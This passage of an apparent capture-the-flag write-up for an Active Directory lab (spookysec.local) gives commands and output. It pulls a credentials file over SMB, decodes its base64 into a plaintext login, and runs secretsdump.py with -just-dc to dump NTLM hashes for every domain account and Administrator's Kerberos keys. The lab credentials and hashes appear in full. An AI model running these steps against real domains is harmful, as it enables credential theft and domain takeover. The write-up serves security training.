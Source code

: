 answer

```
backup_credentials.txt
```

#5 What is the content of the file?

```
smb: \> get backup_credentials.txt
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```

#6 Decoding the contents of the file, what is the full contents?

```
kali@kali:~/Downloads$ cat backup_credentials.txt 
YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw
```
looks like base 64

```
kali@kali:~/Downloads$ echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
backup@spookysec.local:backup2517860
```

[Task 7] Elevating Privileges 

#1 What method allowed us to dump NTDS.DIT?

```
secretsdump.py
```
```
-just-dc
```

#2 What is the Administrators NTLM hash?

```
kali@kali:~/Downloads$ secretsdump.py backup@10.10.4.164 -just-dc
Impacket v0.9.22.dev1+20200819.170651.b5fa089b - Copyright 2020 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e4876a80a723612986d7609aa5ebc12b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:1f700ac1a0ae226e52b1374f88c9cb75:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:c431e7e3555aeb5b63cbdfee3024d56f4b7f10eaba6c3f94d9a1524e76a26a49
Administrator:aes128-cts-hmac-sha1-96:f955ac2d89620b2a8dcd9837105445ff
Administrator:des-cbc-md5:6d5edfa173d9d6ae
```